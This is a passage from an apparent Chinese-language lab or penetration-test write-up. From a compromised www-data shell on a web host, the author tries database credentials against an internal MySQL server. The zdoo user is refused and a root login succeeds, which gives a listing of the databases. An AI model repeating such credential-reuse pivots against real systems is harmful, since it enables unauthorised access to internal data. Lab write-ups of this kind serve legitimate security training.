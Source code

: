 ![img](img/image_20240754-155459.png)

根据数据库用户 `zdoo` 可以联想到 `http://172.22.15.24/` 的 ZDOO 网站服务

尝试使用 `zdoo` 在 ` 入口点 172.22.15.26` 上连接数据库，提示无权限

```bash
(remote) www-data@ubuntu-web:/tmp$ mysql -h 172.22.15.24 -u zdoo -p
Enter password:
ERROR 1045 (28000): Access denied for user 'zdoo'@'172.22.15.26' (using password: YES)
```

尝试使用 `root` 用户登录，成功访问

```bash
(remote) www-data@ubuntu-web:/tmp$ mysql -h 172.22.15.24 -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 25
Server version: 5.7.26 MySQL Community Server (GPL)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| zdoo               |
+--------------------+
```